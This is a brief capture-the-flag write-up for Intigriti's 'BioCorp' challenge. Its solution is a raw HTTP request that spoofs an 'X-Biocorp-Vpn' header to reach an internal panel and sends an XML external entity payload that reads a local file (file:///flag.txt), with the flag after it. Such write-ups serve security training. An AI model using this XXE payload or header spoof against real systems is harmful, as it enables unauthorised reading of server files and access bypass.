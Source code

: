# BioCorp

Solved by: @If-Modified-Since

## Question:
BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?


## Solution:
```
POST /panel.php HTTP/2
Host: biocorp.ctf.intigriti.io
X-Biocorp-Vpn: 80.187.61.102
Content-Type: application/xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Length: 206

<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root>
  <temperature>&xxe;</temperature>
  <pressure>100</pressure>
  <control_rods>50</control_rods>
</root>
```

**Flag:** `INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}`
